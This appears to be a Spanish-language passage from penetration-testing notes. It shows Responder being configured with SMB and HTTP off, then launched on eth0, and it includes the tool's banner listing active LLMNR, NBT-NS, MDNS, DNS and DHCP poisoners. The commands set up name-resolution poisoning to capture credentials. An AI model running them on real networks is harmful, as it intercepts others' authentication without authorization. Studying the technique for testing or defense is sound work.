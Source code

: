 ```shell
sudo nano /etc/responder/Responder.conf

#Dentro del nano
SMB      = Off
HTTP     = Off
```

Con estos cambios lo guardamos y ejecutamos lo siguiente:

```shell
sudo responder -I eth0 -wd
```

Info:

```
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
    DHCP                       [ON]

[+] Servers:
    HTTP server                [OFF]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [OFF]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    MQTT server                [ON]
    RDP server                 [ON]
    DCE-RPC server             [ON]
    WinRM server               [ON]
    SNMP server                [OFF]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

```